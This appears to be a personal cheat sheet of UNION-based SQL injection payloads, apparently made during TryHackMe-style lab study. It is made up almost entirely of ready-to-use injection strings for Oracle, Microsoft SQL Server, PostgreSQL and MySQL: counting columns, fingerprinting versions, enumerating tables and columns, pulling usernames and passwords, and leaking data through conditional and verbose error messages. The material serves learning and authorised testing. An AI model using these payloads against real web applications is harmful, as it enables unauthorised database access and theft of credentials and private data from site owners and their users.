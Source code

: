 ```yaml
---
title: UNION BASED INJECTION
updated: 2023-11-05 07:15:21Z
created: 2023-09-29 07:35:19Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


`SELECT a, b FROM table1 UNION SELECT c, d FROM table2`  
`' UNION SELECT username, password FROM users--`

`https://website.thm/article?id=1 UNION SELECT 1,2,3`

## Test for Errors

`user'`  
`user"`

## UNION

`SELECT name,address,city,postcode from customers UNION SELECT company,address,city,postcode from suppliers;`

`' UNION SELECT NULL,NULL,NULL,'a'--`

`user' or 1=1#`  
or  
`user' or 1=1-- -`

Find how many columns (union select requires same number of colums as source selected)  
`valid_user' union select null#`  
`valid_user' union select null,null#`  
`valid_user' union select null,null,null#`

Note: if a column represent integer instead of string do:  
`valid_user' union select null(int),null,null#`

If columns request 3...  
**Find Version:**  
`valid_user' union select null,null,@@version#`

**Find Table names:**  
`valid_user' union select null,null,table_name from information_schema.tables#`

**Find Column names:**  
`valid_user' union select null,null,column_name from information_schema.columns#`

**Find Password:**  
`valid\_user' union select null,null,password from <tablename>#</tablename>`

If there are 7 columns for example:  
`' union select null,username,null,null,null,null,null FROM users-- -`

* * *

## Database Version

**Oracle**  
`' UNION SELECT banner FROM v$version`  
`' UNION SELECT version FROM v$instance`  
**Microsoft**  
`' UNION SELECT @@version,NULL--`  
**PostgreSQL**  
`' UNION SELECT NULL,version()--  -`  
**MySQL**  
`' UNION SELECT @@version--`

'+UNION+SELECT+table\_name,+NULL+FROM+information\_schema.tables--

* * *

## FIND TABLE FROM DATABASE

FIND COLUMNS FROM TABLES

`'UNION SELECT table_name, NULL from information_schema.tables--`  
`'UNION SELECT column_name, NULL from information_schema.columns WHERE table=<tablename>--`  
`'UNION SELECT <column1>, NULL <column2> from <tablename>--`

## Database Contents

**Oracle**  
`' UNION SELECT table_name FROM all_tables--`  
`' UNION SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'--`  
**Microsoft**  
`' UNION SELECT * FROM information_schema.tables--`  
`' UNION SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'--`  
**PostgreSQL**  
`' UNION SELECT datname FROM pg_database--`  
`' UNION SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'#`  
**MySQL**  
`UNION SELECT * FROM information_schema.tables-- -`  
`UNION SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'/*comment*/`

* * *

## Conditional Errors

You can test a single boolean condition and trigger a database error if the condition is true.  
**Oracle**  
`UNION SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`  
**Microsoft**  
`UNION SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`  
**PostgreSQL**  
`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`  
**MySQL**  
`UNION SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`

* * *

## Extracting data via visible error messages

You can potentially elicit error messages that leak sensitive data returned by your malicious query.  
**Microsoft**  
`UNION SELECT 'foo' WHERE 1 = (SELECT 'secret')`

> Conversion failed when converting the varchar value 'secret' to data type int.

**PostgreSQL**  
`UNION SELECT CAST((SELECT password FROM users LIMIT 1) AS int)`

> invalid input syntax for integer: "secret"

**MySQL**  
`UNION SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))`